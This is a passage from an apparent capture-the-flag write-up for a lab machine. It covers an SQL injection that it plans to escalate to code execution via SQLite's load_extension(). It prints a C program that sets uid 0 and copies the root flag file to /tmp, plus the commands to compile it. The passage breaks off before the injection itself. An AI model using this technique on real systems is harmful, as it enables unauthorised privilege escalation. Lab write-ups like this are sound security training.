 ![user_account](assets/activate_user_account.png)

This is vulnerable to SQL injection. I can get a RCE using the load_extension() SQLite function. First of all, I'll create a C program with the following code (that reads the root flag):

```c
#include <stdlib.h>
#include <unistd.h>

int main()
{
	setuid(0);
	setgid(0);
	system("cat /root/root.txt > /tmp/a.txt");
}
```

Compile and make the executable file name a little shorter:

```
tom@drive:~$ gcc root.c
tom@drive:~$ mv a.out a
```

